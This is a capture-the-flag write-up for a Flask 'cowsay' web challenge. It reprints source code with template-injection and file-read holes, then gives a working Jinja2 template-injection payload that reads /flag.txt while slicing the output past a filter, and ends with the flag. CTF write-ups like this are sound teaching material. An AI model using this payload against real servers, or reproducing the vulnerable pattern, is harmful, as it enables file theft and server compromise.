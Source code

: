 # web3

For this challenge, we are given a website that bears a resemblance to a previous challenge we did (cowsay), though this one is a bit more complicated.

![img1](img/1.png)

We can start by just entering in some text and seeing what happens:

![img2](img/2.png)

Neat! Let's look at the source code:

```python
# coding=utf-8

from flask import render_template, render_template_string, flash, redirect, session, url_for, request, g, Markup, Response
from app import app
import uuid
import traceback
import os

def _generate_cowsay_file():
    return '/tmp/cow-' + str(uuid.uuid4())


@app.route('/')
@app.route('/index')
def index():
    return render_template('index.html')


@app.route('/cowsay')
def cowsay():
    filename_in = _generate_cowsay_file()
    filename_out = _generate_cowsay_file()
    with open(filename_in, 'w') as f:
        f.write(str(request.args.get('msg'))[:2000])

    # cowsay!
    os.system('cat ' + filename_in + ' | /usr/games/cowsay -TU -W 2000 > ' + filename_out + ' 2>&1')
    return redirect('/render?path=' + filename_out, code=302)


@app.route('/render')
def about():
    try:
        with open(request.args.get('path', 'layout.html'), 'r') as f:
            resp = render_template_string('''{% extends "layout.html" %}{% block content %}<div class="jumbo"><h1>Your cow says...</h1><code>''' + f.read() + '''</code><br><p><a href="/">do it again!!!!!!!!!</a></p></div>{% endblock %}''')

            # check if the user is trying to do something evil :((
            if u'OSUSEC{' in resp:
                resp = u'I see the flag in the response! Nice try.'

            return Response(response=resp, status=200)
    except:
        msg = 'We could not fetch your page! Sorry :(\n\n' + traceback.format_exc()
        return Response(response=msg, status=500, mimetype='text/plain')
```

Ah, we have a Flask challenge.  We've done this before (see nopship)! All we have to do is a Flask injection to do arbitrary read on `flag.txt`, but there is a slight problem, the server actually checks to see if 'OSUSEC{' is in the output, and aborts if it does. That's ok, because we can just read only the text after that.

Doing a simple google search for arbitrary read with Flask injection will give us our payload:

```
{{ config.items()[4][1].__class__.__mro__[1].__subclasses__()[40]("/flag.txt").read()[27:120] }}
```

And running it we get the flag!

![img3](img/3.png)

```
OSUSEC{ok_s0_y0u_f1gur3d-out_d1rect0ry-tr@versal_w0nt-b3_helpful-here?}
```
